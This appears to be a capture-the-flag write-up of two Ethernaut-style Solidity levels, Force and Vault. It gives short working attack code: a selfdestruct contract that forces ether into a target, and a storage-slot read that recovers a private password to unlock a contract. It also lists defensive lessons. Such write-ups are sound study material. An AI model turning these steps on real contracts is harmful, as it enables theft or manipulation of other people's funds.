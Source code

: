 ## 07. Force ✅ [Medium]

This level tests understanding of selfdestruct:
- selfdestruct is a low-level function in Solidity used to destroy contract and send all its balance to specified target address.
- Attackers can use selfdestruct to force send contract balance to target address

Attack steps:
1. Deploy new contract and send ether to it.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {
    constructor() public payable {
        // Constructor can receive ether
    }

    function attack(address payable _target) public {
        selfdestruct(_target);
    }
}
```

2. Call `attack()` function to send contract balance to target address
```js
// Call attack function to force send ether
await attackContract.attack(contract.address);
// Verify Force contract balance
const balance = await web3.eth.getBalance(contract.address);
console.log("Force Contract Balance:", balance);
```

Key learnings:
- Understanding selfdestruct mechanism
- Ensure your contract logic doesn't rely on zero balance assumption.
- Avoid directly checking contract balance in code.

## 08. Vault ✅ [Easy]

This level tests understanding of blockchain storage:
- Blockchain storage is public, anyone can view it, even private data can be viewed
- Attackers can use blockchain storage to get contract password
- All state variables in Solidity are stored in contract storage slots
- Public variables (like locked) can be read directly through contract interface
- Private variables (like password) though marked private, only means they can't be accessed directly through contract code. They can still be read through low-level storage reading methods (like web3.eth.getStorageAt)

Attack steps:
1. Use web3.eth.getStorageAt to read content of storage slot 1 (password stored in slot 1).
```js
await web3.eth.getStorageAt(contract.address, 1).toString();
```
2. Use read password as parameter to call `unlock()` function.
```js
await contract.unlock(password);
```
